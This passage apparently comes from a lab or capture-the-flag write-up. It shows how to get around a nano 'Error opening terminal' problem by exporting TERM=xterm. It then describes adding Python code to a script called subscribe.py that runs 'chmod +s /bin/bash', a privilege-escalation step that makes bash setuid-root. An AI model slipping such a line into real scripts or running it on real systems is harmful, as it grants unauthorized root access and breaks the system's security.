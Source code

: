 ![nano](images/13.png)

- When opening a file with `nano`, an error occurs stating that a terminal cannot be opened (Error opening terminal: unknown). This prevents the file from being edited directly with `nano`.
- One common cause is that the `$TERM` environment variable is incorrectly set or not configured for the terminal in use. In this case, a temporary workaround is to set the 💡 `$TERM` to a standard value, such as `xterm`:
```bash
export TERM=xterm
```

After setting the value, run the `nano` command again.

![nano](images/14-1.png)

- In the subscribe.py file, we added code to make the system run the command to set SUID on /bin/bash:
```bash
import os
os.system('chmod +s /bin/bash')
```
